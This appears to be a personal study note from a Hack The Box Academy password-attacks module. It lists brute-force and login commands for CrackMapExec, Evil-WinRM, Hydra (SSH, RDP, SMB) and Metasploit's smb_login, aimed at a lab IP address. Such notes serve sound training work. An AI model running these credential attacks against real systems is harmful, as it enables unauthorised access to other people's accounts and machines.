 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

[[SMB]] [[LDAP]] [[mssql]]
##### SMB, LDAP, MSSQL, etc.
https://github.com/byt3bl33d3r/CrackMapExec

```shell
sudo apt-get -y install crackmapexec

crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```

#### Evil-WinRM
```
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```


[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

##### SMB via metasploit

```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list
set USER_FILE username.list
set RHOST STMIP
run
```